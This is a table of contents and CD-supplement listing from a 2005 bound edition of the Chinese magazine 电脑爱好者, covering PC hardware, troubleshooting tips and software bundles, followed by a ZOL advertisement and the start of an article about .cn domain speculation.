- SLI 我也行——图解GeFore6200改造
- 屏保让LCD “死得早”？
- 显卡小菜的SLI 攻略
- 我有我需要，热门显卡选购路路通
- nVIDIA vs ATI 跨世纪的显卡之王宿命对决
- TurboCache & HyperMemory延续性价比神话

### （四）笔记本与数码产品

- 5 种“快捷方式” 本本随时随地互联
- 光盘刻录，品质先行 ——自己动手检测光盘刻录品质
- 松“驰”有道——让本本的CPU 全速运行
- 带本入“WOW”的两个关键问题
- 十分钟，告别通讯簿管理的石器时代
- 用刻录机分享我的DC 短片、分享我的世界
- 别让像素蒙了我们的眼
- 硬盘应该怎么用？要性能，还是要寿命？
- 硬病软治IBM T 系列笔记本 ——排除Word 在IBM T 系列笔记本电脑上的显示故障
- 团结、统一！——让TV 族与PC 族全面“通婚”
- 构建最简单的家庭媒体中心
- 本本省电有道——SpeedSwitchXP 设置指南

### （五）市场导购

- 选好内存有7 招## CONTENTS

- 345 低端装机的朋友看过来
- 345 数码时代之充电秘笈
- 350 教你看懂主板宣传单
- 351 本本无线上网套餐，哪个更划算?
- 363 每天节省10块钱——软硬兼施降低打印成本
- 365 装机、升级，硬盘买什么?
- 378 Windows Vista版本区别偷偷报
- 379 移动硬盘选购杂谈
- 387 攒机指南：什么样的主板不能买?
- 388 Office键盘 让办公一族如虎添翼
- 389 运“鼠”如飞，鼠标精度随心调
- 393 人体工程学：为你的舒适而生
- 394 从芯片看电视卡的选购
- 398 让我的歌声更嘹亮——耳机“煲机”经验谈
- 398 漫步显卡
- 401 如“影”随“摄”——数码伴侣选购指南
- 402 MP3播放器选购点点通
- 404 连续供墨让喷墨打印耗材不耗财
- 405 如虎添翼：笔记本外设帮你忙

# 傻博士

## 软件

- 421 不认识的字也能用智能ABC输入
- 421 解决Word打印页面不合适的问题
- 421 关闭Winamp时出现内存引用问题
- 421 Word中页码打印的一个难点问题
- 421 微软拼音输入法与RealOne冲突巧解决
- 421 解决论坛下载附件无法解压问题
- 421 巧分TXT大文档
- 421 巧过金山毒霸2005验证
- 421 解决“暴风影音”播放RM文件问题
- 421 让“暴风影音”强制播放MP4格式
- 421 让“暴风影音”兼容HDVD的播放
- 422 解决“暴风影音”5.1音频问题
- 422 双声道电影巧设置
- 422 恢复Word的默认字体颜色
- 422 解决Virtual PC不能正常还原问题
- 422 文件系统让音乐无法播放
- 422 解决迅雷总是开机自启动的问题
- 422 快速直接分割尺寸较大的AVI文件
- 422 解决瑞星防火墙图标移动或见不到报警提示的问题
- 422 解决网镖规则不能保存的问题
- 422 解决瑞星杀毒时提示“请解压”的问题
- 422 从“私人文件保密专家”中恢复文件
- 422 解救压缩包中的视频文件
- 423 巧解闪存盘无法取下问题
- 423 拯救被WPS文字废掉的Word
- 423 打开网页后，不再另存为
- 423 简单加快BT下载速度
- 423 VMWare中声卡无声问题
- 423 巧解Maxthon假死问题
- 423 卸载百度搜霸工具条
- 423 消除Photoshop CS2的Updater错误提示
- 423 解决0xc0000135错误提示问题
- 423 解决修复延缓写入失败问题
- 424 Nero破坏UDF格式的问题
- 424 MSN无法收到消息的原因
- 424 备份MSN Messenger的表情符号
- 424 去除网站安全提示的方法
- 424 解决软件保存速度过慢问题
- 424 替换Maxthon中的出错页面

## 系统

- 424 “使用默认页”按钮为何失效了
- 424 同时打开两个文件夹的问题
- 424 Windows Update下载与安装被阻止
- 424 不同用户如何共享智能陈桥五笔
- 424 Win2003影片播放不及Win2000下流畅
- 424 时间同步，想来就来
- 424 音量图标不翼而飞
- 424 用户名导致McAfee安装失败
- 425 文件夹的查看方式丢失
- 425 上网后系统速度变慢
- 425 无法设置密码
- 425 Windows标题栏字体突然变小
- 425 删除顽固文件终极武器
- 425 恢复“本地用户和组”
- 425 Windows XP下USB设备经常失灵
- 425 中文统统都变问号
- 425 赶不走的“全屏幽灵”
- 426 讨厌的“磁盘空间不足”警告
- 426 电话和调制解调器选项无法打开
- 426 Windows XP又遇光驱丢失
- 426 USB设备导致开关机故障
- 426 Windows XP无法关机.
- 426 整治右键菜单故障
- 426 修正Windows XP对文档内容搜索的支持问题
- 426 解决不能为用户安装默认网络打印机故障
- 427 解决搜索栏变成空白的问题
- 427 解决Windows Media Player“撕破脸皮”的问题
- 427 WinMgmt.exe总是提示出错
- 427 光盘无法自动播放
- 427 打开“控制面板”后没有响应
- 427 安装某些补丁时Explorer.exe出错
- 427 IE出现故障时的修复
- 427 解决自动登录系统的问题
- 427 “网络猪”带来的系统错误
- 427 “系统还原”和“自动更新”等窗口为空白
- 427 修复“磁盘管理”启动故障
- 428 msconfig.exe找不到路径
- 428 解决Windows升级时的Administrators Only错误
- 428 “我的文档”开机自动打开
- 428 安装或启动16位Windows的程序时出现错误信息
- 428 Windows无法找到红外线设备
- 428 右击桌面空白处发生错误
- 428 VPC无法在PAE模式运行

### 硬件

- 429 黑屏后只能用开关强行关机
- 429 如何找回丢失的硬盘空间
- 429 Window 2003下不认USB移动硬盘
- 429 墨盒闲置日久后不能出墨怎么办
- 429 如何才能直接拔插闪盘而不损坏数据
- 429 笔记本电脑键盘进水后按键失灵
- 429 关于蛇形走线的疑惑
- 429 为何5.1音箱不能输出5.1声效
- 429 如何设定用SATA硬盘开机
- 429 Windows 98SE/ME不支持C-Media CMI9880 CODEC
- 429 内存插满了就只能跑333？
- 429 一开机就掉电
- 430 机箱里的“咝咝”声
- 430 相机镜头不能复位
- 430 电脑撞邪了？
- 430 超频失败不用怕
- 430 16X DVD只能4X刻录
- 430 内存扩容也要兼容
- 430 换上新墨盒，还是“墨尽”？
- 430 声卡噪音的几种原因
- 430 超频后声卡为什么不出声
- 430 进入游戏后为什么总有out of range
- 430 计算机必须使用参数稳压器
- 430 硬盘无法识别
- 431 显示器为什么没有显示
- 431 无线设备会串扰
- 431 NBA2005运行不流畅
- 431 如何升级内存
- 431 AMD64位处理器主板搭配
- 431 什么是DVI接口
- 431 为什么经常重启
- 431 DVD光驱托盘弹出不到位
- 431 IBM T43笔记本更换硬盘后出现2010错误
- 431 给64位Windows XP系统减肥
- 431 映泰M7NCG400主板集成显卡性能为何低下
- 432 硬盘重新分区后NEC E2000的SmartRestore功能失效
- 432 DVD在播放刻录的音频CD时有噪音
- 432 硬盘故障导致系统频繁死机
- 432 升级内存造成计算机运行不稳定
- 432 计算机自动重新启动的原因
- 432 如何安装SATA驱动
- 432 一台计算机上同时使用两台显示器
- 432 无法正常关机
- 432 为什么CRT显示器抖动
- 432 计算机无故断电
- 432 计算机蓝屏问题的解决
- 432 如何检测多处理器
- 432 DVD刻录机不读刻录盘
- 433 增加内存后系统变得不稳定
- 433 什么是CPU和主板的工作频率
- 433 机箱警报所为何因
- 433 计算机长时间关机难以启动
- 434 超频设置对吗？
- 433 AMD与英特尔的抉择
- 433 主机为何无限重启？
- 433 升级内存注意兼容性
- 433 计算机自动关闭的原因
- 433 为何开机就会自动进入BIOS
- 434 7.2MB是否为硬盘的着陆区
- 434 开机后有警报音
- 434 不同核心的区别

### 网络

- 434 弹出认证窗口停滞影响浏览效率
- 434 下载的一个页面为何没有包含图片
- 434 Windows 98下ADSL虚拟拨号自动化
- 434 解决大于4GB文件的下载问题
- 434 不同操作系统间的远程管理问题
- 434 无法访问某局域网计算机的共享目录
- 434 免费建立超强QQ群
- 434 整治网页滚动条看不清的问题
- 435 解决Google代理软件在Maxthon中的使用问题
- 435 MSN Messenger 7.0联系人的名字太丑了
- 435 解决https站点的访问问题
- 435 MSN Messenger无法显示动漫传情
- 435 如何才能注销免费邮箱的账户
- 435 搞定新版Maxthon访问网页变慢的问题
- 435 查杀QQ白骨精病毒
- 435 解决局域网内用QQ传文件速度慢的问题
- 435 解决金山词霸取词冲突问题
- 435 解决Outlook突然自动退出的问题
- 435 解决一个变态的网页弹出窗口问题
- 436 浏览的网页显示为空白
- 436 解决打不开HTTPS网页的故障
- 436 跳过MSN Messenger的.Net passport向导
- 436 MSN Messenger总是提示输入账号
- 436 如何搜索聊天记录
- 436 无法打开邮件中的附件怎么办
- 436 E-mail中的“>>>>”怎么删除
- 436 如何观看没下载完整的影片
- 436 如何动态获取IP地址
- 436 电骡下载时提示硬盘空间不足
- 436 无法在线看电影
- 436 网上商城中搜寻最便宜的物品
- 436 去除迅雷广告
- 436 在MSN中直接启动Maxthon
- 437 GB无法重复打开新窗口
- 437 POPO总是提示新邮件
- 437 解决TCP连接数引起的BT故障
- 437 使用花刺代理后无法使用IE
- 437 清除Outlook收件人地址历史记录
- 437 清除IE中文历史记录
- 437 Google Talk中直接联系Gmail联系人
- 437 清除Foxmail的历史记录
- 437 Maxthon中直接调用FlashGet下载
- 437 连接正常但无法浏览网页
- 437 网络连接上显示惊叹号

# CONTENTS

# 电脑报2005合订本(下半年) ○正文 www.cfan.com.cn

- 437 查询域名、IP的详细信息
- 437 网站无法正常使用
- 437 无线网络无法Ping通对方
- 438 限制域用户只登录某一台电脑
- 438 网上邻居内工作机时有时无的问题
- 438 避免Maxthon中新标签覆盖当前页面
- 438 安装个人网上银行不能通过SSL连接
- 438 将淘宝专家退款转账至银行账户
- 438 取消Hotmail自动将邮件设置为垃圾邮件
- 438 继续下载没有种子的BT文件
- 438 Outlook总是自动发送一封无法发送的邮件
- 438 申请UC邮箱别名
- 438 Opera9.0无法导入IE收藏夹
- 438 取消卡巴斯基邮件监控
- 438 OE无法收取、发送Gmail邮件

# 美文报

- 407 任天堂、索尼和微软
- 407 五笔输入法软件，你该用哪款
- 407 加装镜头 手机变DC
- 407 “神化”版互联网由来……
- 407 聪明的朋友你看过来
- 407 圣斗士历表一览
- 407 STANLEY博士的家
- 407 你昨晚作的什么梦
- 407 显卡性能，谁说了算
- 407 流行游戏大变宽屏HDTV游戏
- 407 当代汉语出版物中最常见的100个错别字
- 407 你能收集175000款经典软件吗
- 407 Game Boy Micro到底有多小？
- 407 游戏玩起来
- 407 背后的250人
- 407 这些本本为啥如此好卖
- 407 电池也需要你呵护
- 407 诸葛亮、魏延的风险管理技术
- 407 QQ之父的奋斗历程
- 407 NBA十大不可能破的纪录
- 407 传说中的编程达人
- 407 Google的神秘入口
- 408 英语绕口令
- 408 Google也吹“黑哨”
- 408 手机选丑
- 408 工包货，让我看清你
- 408 猫脸识别门禁系统
- 408 Microsoft vs. Google
- 408 IE7.0的Blog
- 408 专业搜索，精！准！快！
- 408 “色友”必读 优秀照片的秘密
- 408 视频转换你用“谁”？
- 408 Xbox的前世今生
- 408 谁都能当千万富翁
- 408 黑客英语99句
- 408 为你的爱机“体检”
- 408 Blog中的“大富翁”游戏
- 408 20款声卡的“数字输出”质量横评
- 408 深入分析八大LCD厂商的售服策略
- 408 比比谁更长
- 408 一起欺负卡通小人
- 408 专家教你三年省电1万度
- 408 拳打笔记本，脚踢数码相机
- 409 西藏旅游、摄影必备手册
- 409 你心目中的编程高手
- 409 2005年暑期哪些大片值得期待
- 409 便宜本本也要精挑细选
- 409 10大奇图挑战你的眼力
- 409 工程师放出笔记本电脑终极技
- 409 Photoshop CS 2体验完全手册
- 409 搞怪液晶显示器
- 409 AMD E3版K8性能突围战记
- 409 十大软件技术 让失业远离你
- 409 制作漂亮的三格漫画
- 409 你了解这些3D专业名词吗
- 409 独具创意的广告
- 409 美国人如何看待时间
- 409 查询一下你的QQ号码值多少钱
- 409 鞋带的N种系法
- 409 中国魔兽争霸四天王
- 409 废旧光盘做台灯
- 409 惊！PhotoShop轻松绘出国画美女
- 409 在你的iPod中安装运行Linux
- 409 Mac机历代CPU经典回顾
- 409 学MCSE，还是学CCNA?
- 410 让你看歪脖子的巴黎全景图
- 410 别让艺术和你擦肩而过：废旧纸板的妙用
- 410 40亿像素的照片
- 410 细菌玩具，你见过吗
- 410 迷你Unix，软盘带走
- 410 MARS-1玩具设计过程解析
- 410 快闪手册——Alt键的妙用
- 410 在网页上实现的操作系统
- 410 用意志来控制电脑么
- 410 HelloWorld经典大全
- 410 影调基础：摄影者的视觉的依据
- 410 日本百年科技预言成真 23个中有17个成现实
- 410 两千多年前的“明星脸”
- 410 韩国商业网站设计分析
- 410 又见玩家自编游戏——《精忠报国 岳飞传》
- 410 iPod flea来啦!
- 410 全Flash界面的免费E-mail
- 410 命令行玩转FTP
- 410 背诵圆周率，冲击吉尼斯纪录
- 410 Google上找不到的东西
- 410 能看穿你心思的网站
- 411 一个点与线的Flash游戏
- 411 公元3000年的生活是什么样
- 411 读遍全球报纸头条
- 411 左脑 VS 右脑
- 411 你的邮箱反垃圾邮件的能力如何?
- 411 给RM文件加个Flash的片头
- 411 奢侈名牌、限量手机全接触
- 411 我长得象我家小狗狗
- 411 去比尔·盖茨家做客
- 411 用本本做马桶
- 411 噩梦！6部必看的灾难片
- 411 Photoshop认证漏题
- 411 构图的困惑
- 411 一个女孩写的恋爱程序
- 411 数码摄像机进化论
- 411 歌神张学友传
- 411 CNET 10年最经典的10款软件
- 411 除了IE，别的浏览器都能正常显示的页面
- 411 中国应用软件生存调查
- 411 在线英语语法辞典
- 411 谁在拿高薪——IT业薪酬调查
- 411 残破的墨迹——精彩的Photoshop教程
- 411 穷人的法拉利，廉价1GB MP3
- 411 未来生活会是怎样
- 411 中国十大富豪的学历
- 412 外星人也爱blog？
- 412 为你的站点创建一个免费logo
- 412 建立你自己的“google主页”
- 412 DIY美国总统布什
- 412 吃一口iPod
- 412 DIY自己的Flash电影
- 412 进口32英寸液晶电视导购
- 412 微软Virtual Earth和Google Maps谁更强
- 412 钉子的哲学
- 412 微距里的昆虫世界
- 412 人人做专家
- 412 哪些MP3你不该买
- 412 制作爱情纪念章
- 412 没有三角架也能稳如泰山？
- 412 一步一步画卡通
- 412 CPU主频进入7GHz？
- 412 软件编程高手是这样练成的
- 412 智能ABC中的“v”和“i”
- 412 你能破解这个无字小说吗
- 412 透明婚纱抠图大法
- 412 罕见！Windows非主流技巧收集
- 412 挑战极限！32MB运行Windows 2000
- 412 唐骏：中国式管理
- 413 刘德华10～80岁照片曝光
- 413 纠正你的枪法误区
- 413 买DC防JS十二大宝典
- 413 游戏币收集爱好者
- 413 究竟是谁在作弊
- 413 国产电池要选好
- 413 国产手机售后服务大比拼
- 413 QQ活跃天数查询地址
- 413 探探Vista的游戏性能
- 413 12年nVIDIA卡历程全回顾
- 413 点与线的游戏
- 413 ThinkPad全系扩展外设赏析
- 413 NBA，I Love This Game！
- 413 用22万美刀手机的奢侈生活
- 413 佳能机身通吃其它镜头
- 413 图解《古镇小雨》
- 413 1100万像素5张连拍
- 413 黄金分割—化腐朽为神奇
- 413 送你一朵玫瑰花
- 413 摄影镜头调制传输函数MTF解读
- 413 软件工程师的爱情
- 413 暴怒鸦:数码相机LCD放大镜
- 413 Tt全线静音产品
- 414 我和我的七个“媳妇”
- 414 在网上玩的RPG
- 414 惊爆！美军超级黑客特种部队
- 414 抛“键”弃“鼠” 打游戏就要用手柄
- 414 与众不同的“Windows完美版”
- 414 穿越时空只要10美元
- 414 看完一部电影只要1分钟
- 414 像吃饭一样简单的设计LOGO
- 414 五大经典数码相机回顾
- 414 微软里程碑Win95诞生纪念
- 414 4款未来iPod吓人设计
- 414 经典显卡背后的故事
- 414 局域网基础知识大普及
- 414 记录发生在你身上的糗事
- 414 背下这18条 没人敢和你忽悠CPU
- 414 看我挑长焦！论坛网友选购长焦数码相机全写实
- 414 给Photoshop学习者的十九条忠告
- 414 在主页上制作个人主页
- 414 把耳朵叫醒
- 414 最具创意十二个网名 你见过几个
- 414 23条让硬件长寿的基本技巧
- 414 号称互联网上“最好的”PhotoShop网站
- 414 CPU历史上最难忘的十个第一
- 414 业余影室的灯光不足怎么办
- 415 偷QQ号码，犯的什么法
- 415 历代CPU最全明细参数表
- 415 大忽悠考考你 液晶电视玩脑筋急转弯
- 415 惨不忍睹 市上最令人诧异的八款键盘
- 415 三类打印机选购指南
- 415 历史上最长寿10大“臭虫”
- 415 把日本货摔碎 5款数码相机看谁比谁硬
- 415 带闪存芯片的鼠标
- 415 近期四大不值得购买的CPU
- 415 火眼金睛判别16.7M液晶
- 415 回顾苹果操作系统二十年
- 415 联通、移动到底哪个强
- 415 用电脑者要做的几件事
- 415 最牛改造！废物利用
- 415 主板全程图解
- 415 监控反恐进行式
- 415 拯救硬盘十大绝招
- 415 CPU大史记
- 415 E时代桌面新宠物！USB怪异想法出鱼缸
- 415 特立独行二十年 回顾苹果电脑的艺术人生
- 415 精英主板制作流程内幕
- 416 全世界程序员都会犯的错误
- 416 无聊小游戏：戳企鹅
- 416 用一只手数到31

416 老外自制笔记本蛋糕
416 收藏也需要天分的
416 29种光盘的考验
416 祝超级玛丽生日快乐
416 从桌面鸟瞰地球
416 《帝国时代3》背后的秘密？
416 iPod nano的另类用途
416 TGS 2005专题报道
416 见标识，知镜头
416 夜，也可以多彩多姿
416 用直方图分析照片的曝光
416 图解各类操作系统的安装过程
416 教你准确分辨返修板卡
416 电脑市场防骗详尽指南
416 谁在诋毁BT下载的声誉
416 LCD淘汰CRT七大理由
416 十大流氓软件完全卸载方案
417 25个至今不能解答的科学问题
417 破解广告摄影照片之谜
417 30余款DVD盘片一览
417 最具创意电脑配件TOP10
417 WinXP使用中的六大禁忌
417 "史上10大""经典BOSS""排行"
417 S60以外也精彩 S80/S90/UIQ手机全搜罗
417 日本数码攻略
417 微软的IT水晶球
417 8月最受用户关注的十款高端LCD
417 两个极端，体验经典与失败
417 卡片数码相机谁比谁更薄
417 手把手教你在SATA上装XP
417 恶搞任天堂“革命”手柄
417 看看你有没有明星相
417 世界上最小的网站
417 眼球的惊讶 你买不到的LCD显示器
417 与众不同的“超级”书签
417 Word界面的变迁
417 盛大只招三种人
417 老虎、Bill、自己
417 看十大硬件之“最”
417 十招搞定“无法浏览网页”
417 经典双打游戏全搜罗
418 烤肉架DIY笔记本屏幕外壳
418 奸商教你如何对付奸商
418 首款数码相机及首张数码照片
418 行货价太高 购“本”买水货
418 80年代经典动画片回顾
418 节省话费就这BT八招
418 强人DIY家庭影院全程图解
418 拒绝误导，带你看清MP3/4的真真假假
418 谁是世纪伟人
418 移动通信史上的十件大事
418 一网打尽网页在线即时翻译
418 你是“食指一族”吗
418 游戏史上最重要的43款作品
418 到Photoshop总部探密
418 征服未来：飞向太空的长征
418 免费制作Google风格的Logo
418 PSP玩机攻略
418 55个经典Windows开源软件
418 杀人游戏有几种玩法
418 看看你的Blog值多少钱
418 笔记本电脑之“最”
419 多款播放器实听感受
419 使用笔记本的九大恶习
419 LCD显示器的“十万个为什么”
419 六招提速Windows XP
419 被卸载次数最多的软件
419 营造良好听音环境
419 最值得购买的水货智能手机
419 恶搞！穿上黄金圣衣的硬件
419 视频iPod发布的十大恶果
419 10分钟实战超频
419 DVD盘片生产商标志大全
419 百花争艳斗芳菲
419 硬盘开盘维修内幕全程大曝光
419 Ghost鲜为人知的参数
419 腾讯QQ七年大事记
419 惊爆DC奸商行骗全过程
419 Vista细节大图欣赏
419 Windows变慢原因分析
419 微距摄影的概念与方法
419 2006年主流配件预告篇
419 当摄影遭遇绘画
419 世界从10亿光年到0.1飞米
420 ADSL知识合集
420 人一生要读的60本书
420 音乐、耳机和俺
420 简历封面应如何制作
420 全面解读显卡基本常识
420 怎样鉴别音质
420 诺基亚QD格机全过程
420 高手都是这样清除系统垃圾的
420 “牛”人是这样用Photoshop的
420 玩转双屏LCD
420 年度最酷超炫外设全搜罗
420 字符“奥运会”
420 IBM水货商自曝内幕
420 摄影者必看：器材发烧路
420 谁在用GNU/Linux工作
420 绝对隐私！敏感数据销毁计划
420 透视八大笔记本杀手绝技
420 透视和消除电脑噪音根源
420 你的笔记本电脑安全吗
420 谁是Windows智能手机的王者
420 找回自信，失恋后必玩的五款游戏
420 本本安全防护揭密
420 2005十大消费硬件综述
270 新软物语
277 CFan小白鼠
281 CFan通缉令

# 配套光盘简介

## 光盘A

### 2005年期刊全文检索

2005年《电脑爱好者》23期杂志(24期杂志将收在2006年的光盘中)所有内容，共4000万字均收录到光盘中，并通过PDF完完全全展现了杂志的风貌。光盘中收录的所有杂志内容，配有功能强大的全文检索系统，可以按期数、栏目、标题、关键词等多种方法进行检索，方便快捷。

### 电子书库(5本)

- **《玩转Windows》**
  本书以实例的形式详细介绍了DOS、Windows 3.X、Windows 9X、Windows 2000 Professional、Windows NT、Windows 2000 Server、Windows XP各代操作系统的安装、使用和维护。
- **《从0晋身200%软件高手》**
  该书是一本学习实用工具软件的宝典。本书不但适用于电脑入门的读者使用，对于有一定电脑基础的读者也大大有经验可取。
- **《从0晋身200%网络高手》**
  本书是一本以上手、实例和技巧为主的书，介绍了网页制作和上网浏览的诸多技巧和应用实例。
- **《从0晋身200%硬件高手》**
  通过全面拆解各种电脑配件，使读者通通透透了解它们神秘的内心，可以完全掌握各种硬件的基本知识，迅速晋身高手。
- **《电脑超级技巧3000招》第二版**
  本书在第一版基础上进行升级、改版、提高，为全国电脑爱好者提供一本学习技巧的宝典。

### 硬件资料超级手册完整电子版

收录近年来常用硬件产品的详细参数信息，提供给读者查询。有多达10,000个共18类硬件产品的详细数据，揽括了目前大多数硬件产品，可说是一本前无古人的详细速查手册。

## 光盘B

### KV2006 电脑爱好者 OEM 版

江民杀毒软件KV2006（简称KV2006），是江民公司汇集国内诸多反病毒专家，针对网络全球化后，病毒传播速度加快、爆发更频繁的特点，精心研发的最新一代个人计算机安全防护产品，除继承了江民产品一贯优秀的杀毒能力外，KV2006还全面采用64位技术编程，运行速度更快、杀毒效率更高；独创BOOTSCAN技术，杀毒更彻底，用户更安全；防范木马监听键盘、鼠标消息，网上支付安全无忧；自动恢复被病毒破坏的注册表，杀毒不留死角；接入移动设备自动查毒，用户接入外设更放心；扫描自动变速，不影响用户正常工作；系统漏洞检查，增强系统安全性；垃圾邮件识别，用户接受邮件更放心；恶意网址过滤，上网更安全。

**注册提示**
安装软件时，在本书光盘袋中，找到KV2006《电脑爱好者》专用授权序列号卡，刮开保护层，获得本软件的授权序列号，即可安装注册使用。软件授权、服务的相关具体细节，可参考卡上的说明。

### 金山词霸2006 电脑爱好者 OEM 版

金山软件公司全新推出的金山词霸2006，实现中英日互译，全新设计了中文简体、中文繁体、英文、日文四种界面，可满足更多用户需求。《金山词霸2006》新增很多新功能：如在线自动更新功能、模糊听音查词、智能光标取词、模糊查词、全文检索、有声双解、海量词典、另外，发现问题可通过在线客服及时反馈。金山词霸2006还附带有迷你背单词、生词本等辅助功能。

**注册提示**
软件安装非常简单，按照默认设置安装即可。安装完成后启动，软件会弹出注册窗口，安装合订本光盘袋所粘贴的注册帐号进行注册，即可使用。具体可访问 http://push.cb.kingsoft.com/cb06/index.htm，金山公司咨询热线010-82331816。

### 熊猫卫士钛金版2005(注册版)

方正熊猫企业版防病毒(PESA)产品是一个高性能和稳定的防病毒解决方案，它方便了对网络中所有计算机的保护配置和更新，这些计算机包括：工作站、文件服务器、Exchange和Domino邮件服务器、SMTP网关和边界服务器。它不仅抵御病毒、蠕虫和特洛依木马，还防护新的英特网攻击，如垃圾邮件、间谍程序、拨号器、黑客工具和恶作剧，以及针对系统漏洞，并提供保护阻止安全冒险。

**注册提示**
安装时，本软件的序列号粘贴在本书的光盘袋上。安装完毕后，请注意填写附录分册326页的注册表格，注册熊猫杀毒软件(注册方式可以通过邮寄、E-MAIL等方式，推荐E-MAIL方式)，此后即可正常使用。

## 特别奉献

◇山丽防黑客软件(试用版)
山丽网络堡垒防黑客软件是一款增强软件防火墙，可应用于个人电脑和中小企业网关，其革除了传统软件防火墙的弊病，具备三大独特防卫特征，五大贴身防护措施。

◇中望CAD
中望CAD具有全中文界面，并提供多语言版本，功能强大、性能稳定、价格低廉，是目前市场上唯一能在多方面替代AutoCAD的优质产品，特别适合国内CAD用户。

◇家庭医生2005
《家庭医生2005》是一款功能强大的医学知识学习软件及资料管理软件。包括医学知识、医学书籍、药物学和家庭药膳几个方面。

◇考试系统
考试系统是一套基于局域网的电子考务软件，考试过程全自动化，包括自动组卷、控制时间、自动评卷、打印成绩等，管理员在一台计算机上可以控制整个考试过程。

◇学英语——口语与单词
本软件集英语口语、听力学习和背单词于一体，运用幽默风趣的卡通角色进行英语发音，结合具有特色的英语软件听、写、读功能和轻松愉快的学习环境。

◇证券之星体验版
符合投资者的看盘习惯，自动完成历史数据的添加，还原股市的真实走势，方便的公告提示，让你迅速把握市场方向。

◇金山打字游戏2003
金山打字2003共设有五款游戏，可快捷高效地学习和练习打字。

## 数字杂志欣赏

《电脑爱好者》旗下的数字杂志，经过一年的发展，已经有数十种杂志可以通过网络阅读，这里给大家提供二期的《电脑爱好者》和《数码》杂志数字版，以供读者欣赏。详细信息可访问 http://emag.cfan.com.cn/emag/。

## 《电脑爱好者》四季光盘(秋)精选

## 《电脑爱好者》四季光盘(夏)精选

《电脑爱好者》配送订阅VIP用户的四季光盘，是《电脑爱好者》编辑部精心制作的，里面有很多精彩内容，但由于容量有限，我们这里主要选择了其中的精彩软件，不过读者也可以通过光盘的动画和界面，了解四季光盘的风采。


## 公司介绍

中关村在线(www.zol.com.cn，以下简称“ZOL”)是大中华区极具商业价值的IT专业网站，始终致力于做中国领先的IT专业网站的建设。
ZOL成立于1999年3月，其客户群主要来自企业用户、个人购买者和大量IT行业及相关行业的高、经、销商。截至2005年7月，ZOL日平均访问量超过了260万人次，总注册用户超过260万。在互联网IT产品与渠道商情、市场动态、技术应用、消费调查、电子商务的应用与服务等方面，ZOL始终保持IT业界的领先地位。
ZOL拥有先进、独特的商业模式，ZOL提供的“商情资讯-商情查询-商情分析”三位一体的超级价值版—SVS(Super Value-added Service)，已经成为用户的消费指南、商家的决策依据，影响力巨大。
ZOL在国内外IT资讯服务领域率先提出“客户服务1+1”理念，由“专人负责+专业团队”组成的服务团队正在为数以万计的客户提供尽力尽心的专深服务。

## ZOL十大优势

1. ZOL作为国际CNET Networks引进公司在中国的核心子公司，始终致力于销售促进型IT专业媒体的建设，现已成为中国最专业互联网IT电子市场渠道影响力的IT专业网站(权威、商业性、影响力)；
2. ZOL是中国极具影响力的IT商情与采购资讯网站，产品库与报价库的数据量早已超过七大门类网站及行业龙头产品，而资讯频道的30%的中国网民(9600万)；
3. 2003年3月成立的ZDC是中国IT界首次以互联网的IT产品消费调研而提供的机构，拥有中国最大的消费行为监测与咨询数据库，动态监测并报IT产品消费趋势并预判消费市场趋势(拥有用户行为信息118000条)；
4. ZOL是中国IT硬件领域渗透最深的网络媒体—入驻的地级经济版已超过26000家；
5. ZOL拥有最完善的IT厂商资讯库—提供超过1500家IT厂商资讯；
6. ZOL拥有中国最全的IT产品数据库(110个产品大类，近6万多个产品详细数据)；
7. ZOL拥有业内极为先进、快速、准确的报价系统，始终保持对北京、上海、广州三大核心城市的实时更新，同时，还监控深圳、合肥、成都、郑州及西北、东北等25个城市与地区的报价，更包含美国市场IT产品报价，每日保持1万条以上的报价；
8. ZOL论坛是中国极具有力的专业硬件论坛，是网友解决电脑购买、维修、超频问题的专家团(日回复率83%，网友满意率94%)；
9. ZOL拥有中国B2C交易规模大的电脑硬件商超—在线销售产品多达成千种，月均成交300万元；
10. ZOL拥有中国最大的二手IT产品C2C交易平台。

## ZOL分销联盟

| 城市 | 网址 | 城市 | 网址 |
|------|------|------|------|
| 北京站 | www.zol.com.cn | 深圳站 | www.sz.zol.com.cn |
| 上海站 | sh.zol.com.cn | 广州站 | gz.zol.com.cn |
| 成都站 | cd.zol.com.cn | 武汉站 | wh.zol.com.cn |
| 南京站 | nj.zol.com.cn | 西安站 | xa.zol.com.cn |
| 重庆站 | cq.zol.com.cn | 天津站 | tj.zol.com.cn |
| 沈阳站 | sy.zol.com.cn | 济南站 | jn.zol.com.cn |
| 郑州站 | zz.zol.com.cn | 长沙站 | cs.zol.com.cn |
| 杭州站 | hangzhou.zol.com.cn | 福州站 | fz.zol.com.cn |
| 合肥站 | hf.zol.com.cn | 昆明站 | km.zol.com.cn |
| 哈尔滨站 | he.zol.com.cn | 长春站 | cc.zol.com.cn |
| 石家庄站 | sjz.zol.com.cn | 太原站 | ty.zol.com.cn |
| 兰州站 | lz.zol.com.cn | 贵阳站 | gy.zol.com.cn |
| 南昌站 | nc.zol.com.cn | 乌鲁木齐站 | wlmq.zol.com.cn |
| 南宁站 | nn.zol.com.cn | 呼和浩特站 | hhht.zol.com.cn |
| 银川站 | yinchuan.zol.com.cn | 海口站 | haikou.zol.com.cn |
| 西宁站 | xn.zol.com.cn | 拉萨站 | lhasa.zol.com.cn |

ZOL.COM.CN 510WEB2.0下的新一代IT互动门户

## 抢注.cn域名 就能一夜暴富？

从2002年开始，国家重新修订了《中国互联网络域名管理办法》(以下简称办法)，其中最大的改变就是给域名注册松绑了。据记者了解，办法出台前，注册一个国家顶级域名(.cn)在手续完备的情况下仍需一个月的审批和备案时间。当时中国互联网络信息中心(CNNIC)开始尝试通过市场手段推广.cn域名。仅过了两年时间，国家顶级域名注册量就猛增到50多万个。然而，网民的关注焦点从如何获得一个.cn域名很快地转换到了另外一个话题—投资.cn域名能否一夜暴富。



## 抢注域名=一夜暴富？

